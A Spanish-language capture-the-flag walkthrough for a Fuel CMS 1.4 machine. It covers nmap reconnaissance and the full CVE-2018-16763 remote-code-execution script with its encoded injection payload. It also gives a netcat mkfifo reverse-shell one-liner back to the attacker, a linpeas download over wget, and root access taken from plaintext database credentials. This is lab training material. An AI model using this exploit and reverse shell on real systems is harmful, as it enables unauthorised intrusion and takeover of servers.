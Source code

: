Hola de nuevo, en esta ocasion tendremos una maquina de dificultad facil, en el que tendremos que hacer un leve reconocimiento, realizar una busqueda de una brecha de seguridad utilizando la version CMS en el que  lograremos crear una reverse shell dentro de nuestra maquina atacante y escalaremos privilegios abusandonos de la base de datos sin proteger del sistema!

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```bash
Nmap scan report for IPTARGET
Host is up, received user-set (0.24s latency).
Scanned at 2023-06-26 19:16:26 EDT for 25s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

```

Nuestro escaneo nos indica el puerto http abierto, por lo que navegaremos al sitio web.
Encontraremos la la version y el CMS que esta utilizando esta pagina "**Fuel CMS 1.4**".
Buscaremos por internet si existe alguna vulnerabilidad para esta version, podemos buscarlo con la palabra clave **exploit**.
Tambien podemos buscarlo mediante : `searchsploit Fuel CMS 1.4`
**Nota**: Dentro del servidor web tambien encontramos una ruta donde podemos usar las credenciales **admin:admin** para poder ingresar con este usuario y poder estudiar mas la interface. La ruta es : http://IPTARGET/fuel

# Intrusion

Una vez tengamos nuestra exploit a utilizar, siempre es bueno echarle un vistazo como esta estructurado el exploit asi tendremos una idea de como utilizarlo correctamente.
 Tenemos que editar el exploit con la URL/IP de nuestra victima. Podes utilizar `nano` `vim` o cualquier editor que mas te gusta.
Revisamos que todo este correcto y luego lo ejecutamos, aca hay un ejemplo de como modificarlo.

```bash
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "IPTARGET"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
            
```

Lo ejecutamos con `python2 exploit.py` y se nos abrira una terminal en el cual podemos ejecutar comandos. Para poder trabajar mas adecuadamente, nos pondremos en escucha en nuestra maquina atacante y pegaremos nuestro reverse shell 

```python
`nc -nvlp LPORT` ---> Maquina atacante
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f`.
```

No olvidemos de upgradear nuestra shell para poder trabajar mas comodo 

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

# Priv.Escalation

Como no podremos realizar `sudo -l`, tenemos que enumerar la maquina por posibles vulnerabilidades. `linpeas.sh` es una herramienta  que busca archivos con permisos elevados dentro del sistema.

Para poner linpeas dentro del sistema, tenemos que movernos al directorio **/dev/shm**.
En nuestra maquina atacante, abriremos un servidor python http dentro del directorio donde tengamos instalado linpeas **/opt/peass**. 
`python3 -m http.server 443`

Dentro de la maquina victima, nos transferimos el archivo ejecutando :
`wget http://LHOST/linpeas.sh`. 

Le daremos permisos de ejecucion y lo corremos:
`chmod +x linpeas.sh`
`./linpeas.sh`

Una vez realizada la enumeracion, hay un directorio que nos indica las credenciales del usuario raiz root. Nos digirimos a la siguiente ruta :
`/var/www/html/fuel/application/config`

Veremos alojados configuraciones, migraciones, editores, perfiles,etc. Nos centraremos en la parte de database, donde podemos ver la base de datos del usuario root con sus credenciales correspondientes.

`cat database.php`

Ya con esto en mano, cambiaremos de usuario a root y reclamamos nuestra flag ! :

`su root`




